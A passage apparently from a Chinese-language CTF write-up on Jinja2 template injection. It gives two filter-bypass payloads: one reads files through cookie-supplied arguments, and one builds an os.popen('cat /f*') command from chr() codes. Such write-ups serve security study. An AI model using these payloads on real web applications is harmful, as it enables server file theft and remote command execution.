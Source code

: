 [![在这里插入图片描述](assets/1698900310-cacb155e36fbd99199def59a05aa9a36.png)](https://storage.tttang.com/media/attachment/2022/08/14/b16a7ff1-e7a7-45ca-96fa-79b1f2409c64.png)

```bash
name={{c.__init__.__globals__[request.cookies.a].open(request.cookies.b, request.cookies.c).read()}}
```

[![在这里插入图片描述](assets/1698900310-0f6baa9f255e57e2686539ce72c103a2.png)](https://storage.tttang.com/media/attachment/2022/08/14/42ddf156-5405-403b-a6be-e458948b6ff1.png)  
除此之外，也可以利用 chr 来进行绕过  
payload 的构造同上关即可

```bash
name={% set chr=url_for.__globals__.__builtins__.chr %}{{url_for.__globals__[chr(111)%2bchr(115)].popen(chr(99)%2bchr(97)%2bchr(116)%2bchr(32)%2bchr(47)%2bchr(102)%2bchr(42)).read()}}
```

[![在这里插入图片描述](assets/1698900310-829b4ef018bb0107245d278d03b8487b.png)](https://storage.tttang.com/media/attachment/2022/08/14/427e104f-de26-4a45-a025-c39f2ec6fe2f.png)
